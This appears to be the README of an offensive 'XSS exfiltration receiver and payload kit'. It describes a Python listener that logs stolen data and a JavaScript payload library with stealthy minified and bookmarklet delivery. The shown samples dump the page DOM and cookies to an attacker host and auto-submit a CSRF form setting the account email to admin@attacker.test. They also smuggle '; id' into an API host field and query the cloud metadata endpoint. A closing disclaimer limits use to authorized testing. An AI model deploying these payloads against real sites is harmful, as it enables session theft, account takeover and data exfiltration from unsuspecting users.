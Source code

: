 

# 🕵️ XSS Exfiltration Receiver & Payload Kit ( Beta )

This package provides a complete system for capturing, decoding, and analyzing XSS-exfiltrated data via HTTP requests. 
It includes a threaded Python-based receiver and a stealthy, modular JavaScript payload library designed for DOM inspection, internal API probing, light CSRF, and command injection testing.

---

## 📦 Contents (.. in development ..)

```

xss\_receiver/
├── xssrecv.py         # Python receiver (GET/POST support, decoder)
├── payloads.js        # Modular JS payload library
├── payloads.min.js    # Minified version for stealth deployment
├── payloads.bmk.js    # Bookmarklet version
└── README.md          # This file

````

---

## 🚀 Getting Started

### 1. Run the Receiver

```bash
python3 xssrecv.py --port 8080 --show --json-log --allow-ip 127.0.0.1
````

| Flag         | Description                                           |
| ------------ | ----------------------------------------------------- |
| `--port`     | Port to listen on (default: `80`)                     |
| `--show`     | Print decoded HTML to terminal if present             |
| `--json-log` | Save logs to `decoded_html/log.jsonl`                 |
| `--allow-ip` | Restrict access to IPs (e.g., `--allow-ip 127.0.0.1`) |

---

### 2. Deliver JavaScript Payload

#### Option 1: Inline Injection

Inject this script into a vulnerable page:

```html
<script src="http://YOUR-IP:8080/x.js"></script>
```

#### Option 2: Bookmarklet

Paste the content of `payloads.bmk.js` into a bookmark and click it while visiting the target app.

---

## 💥 Payload Overview

The included `payloads.js` covers multiple testing scenarios:

| Category        | Description                                          |
| --------------- | ---------------------------------------------------- |
| DOM Dump        | Collects and sends the full HTML DOM                 |
| Cookie Theft    | Sends cookies and environment info                   |
| CSRF (GET/POST) | Triggers light GET/POST CSRF to local endpoints      |
| Command Probe   | Sends `id`, `whoami`, or `curl`-style blind requests |
| SSRF            | Hits local/internal metadata endpoints               |
| Probing         | Discovers `/api`, `/admin`, `/config` on same-origin |
| Timing          | Profiles request latency                             |
| Error Beacons   | Captures uncaught JS errors                          |

---

## 🔐 Sample Payloads (Inside `payloads.js`)

```js
// DOM exfiltration
postData(btoa(document.documentElement.outerHTML));

// Cookie + fingerprint
postData(btoa(document.cookie + " | " + navigator.userAgent));

// CSRF auto-form
let f = document.createElement("form");
f.method = "POST";
f.action = ORIGIN + "/account/change-email";
let i = document.createElement("input");
i.name = "email";
i.value = "admin@attacker.test";
f.appendChild(i);
document.body.appendChild(f);
f.submit();

// Command Injection attempt
fetch("/api/system/check", {
  method: "POST",
  body: JSON.stringify({ host: "127.0.0.1; id" }),
  headers: { "Content-Type": "application/json" }
}).then(r => r.text()).then(t => postData(btoa(t)));

// SSRF to cloud metadata
fetch("http://169.254.169.254/latest/meta-data/hostname")
  .then(r => r.text()).then(t => postData(btoa(t)));
```

---

## 🖥️ Hosting Payloads with the Receiver

Your `xssrecv.py` is preconfigured to serve:

* `http://YOUR-IP:8080/x.js` → `payloads.js`
* You can add:

  * `x.min.js` → for stealth minified delivery
  * `x.bmk.js` → for bookmarklet version

---

## 📂 Decoded Output

All captured and decoded data is saved to:

| File/Folder               | Purpose                          |
| ------------------------- | -------------------------------- |
| `decoded_html/`           | Output directory                 |
| `decoded_YYYYMMDDT..html` | Saved decoded HTML content       |
| `raw_YYYYMMDDT..txt`      | Raw query string or POST data    |
| `log.jsonl`               | JSON log of all captured entries |

Each entry includes IP, timestamp, headers, decoded layers, and preview content.

---

## 🔧 Extending

You can easily extend `payloads.js` to:

* Add fingerprinting logic
* Trigger internal SSRF/CSRF/RCE probes
* Enumerate form fields, tokens, iframes, or script execution results
* Chain logic with `setTimeout`, `Promise`, or `MutationObserver`

You can also update `xssrecv.py` to:

* Forward exfiltrated content to webhooks
* Send email/SMS alerts
* Automatically replay stored HTML

---

## 🧪 Testing It Out

1. Start the receiver:

```bash
python3 xssrecv.py --port 8080 --show --json-log
```

2. On another device or browser, simulate the victim:

```html
<script src="http://YOUR-IP:8080/x.js"></script>
```

3. Watch decoded payloads being saved and printed in real time.

---

## ⚠️ Legal Disclaimer

This tool is for **authorized security testing and educational use only**. 
Do not use against systems without **explicit written permission**. Always follow your organization's rules of engagement and testing scope.

---

## 🛠 TODO / Ideas

* [ ] Add TLS/HTTPS support
* [ ] Webhook alert forwarding (Slack/Discord)
* [ ] DOM replay viewer UI
* [ ] Auto-generate signed payloads
* [ ] Dockerfile + Makefile for deployment

---

## 🧠 Credits

Built by operators for operators. Use responsibly.

```
\

